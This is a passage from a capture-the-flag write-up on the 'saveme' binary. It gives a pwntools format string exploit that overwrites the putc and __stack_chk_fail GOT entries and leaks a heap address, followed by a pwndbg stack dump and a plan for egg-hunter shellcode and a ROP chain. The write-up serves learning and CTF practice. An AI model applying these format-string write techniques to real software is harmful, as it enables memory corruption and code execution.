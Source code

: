 Except the heap address is gone.  The `scanf` after the loop overwrites the only heap pointer and that's it. What we need to do, then, is in the first `printf`, we have to both set up the loop and also leak the heap address.

```py
from pwn import *

p = process('./saveme')
elf = ELF('./saveme')

putc_got = elf.got['putc']
stk_got = elf.got['__stack_chk_fail']

p.sendline(b'2')
p.recvuntil(b'gift: 0x')
buf_addr = unpack(unhex(p.recvuntil(b'|', drop=True).strip()), word_size=48, endian='big')

payload  = b'%64p'      # 0x40
payload += b'%14$n%15$n'# at putc_got+2 and stk_got+2
payload += b'%5305p'    # 0x14f9
payload += b'%16$hn'    # at stk_got
payload += b'%82p'      # 0x154b
payload += b'%17$hn'    # at putc_got
payload += b'%18$s'     # leak heap address
payload += b'\x00'*(8-(len(payload)%8)) + p64(putc_got+2) + p64(stk_got+2) + p64(stk_got) + p64(putc_got) + p64(buf_addr-0xd0)

p.sendline(payload)
```

This is as reduced of a payload as I got. We have 80 characters, and we need 5 addresses inside, which means we only have 40 bytes for the format string. We need to write 0x40 twice, and since 0x40 is the lowest value we need to write it first. This means that the latter two byte writes have to be just two bytes (i.e. `%hn`); if done with `%n`, then the 0x40 we wrote will be overwritten with 0s. This payload results in:

```
pwndbg> x/32gx $rsp
0x7ffc1d1ee820: 0x0000000000000000      0x0000000000000002
0x7ffc1d1ee830: 0x2434312570343625      0x35256e243531256e
0x7ffc1d1ee840: 0x2436312570353033      0x3125703238256e68
0x7ffc1d1ee850: 0x243831256e682437      0x0000000000000073 <<< 1 byte!!!!!
0x7ffc1d1ee860: 0x0000000000404072      0x000000000040403a
0x7ffc1d1ee870: 0x0000000000404038      0x0000000000404070
0x7ffc1d1ee880: 0x00007ffc1d1ee900      0x9cf432c27f7bc200
0x7ffc1d1ee890: 0x0000000000000000      0x00007fb756f620b3
```

This payload is 88 bytes, because the format string part was over by 1 single byte, so the last part (`p64(buf_addr-0xd0)`) is not written. 

At this point, we tried looking through memory to find any heap pointers, but there were literally none. Theoretically we can get the flag, because we have infinitely many `scanf` and `printf` with a format string vulnerability. This means we have as many writes and reads as possible, which means we could slowly write an egg hunter shellcode in the rwx region, write a rop chain on the stack to the rwx region, and get the flag that way. In fact, f0xtr0t even wrote the shellcode, so all I needed to do was to write that shellcode to the rwx region and write a rop chain. However, at this point I've spent so much time on this problem and on this idea of just using the heap pointer on the stack, that I was pretty determined to solve it this way. (I also didn't want to go the other route because it sounded too much work.)
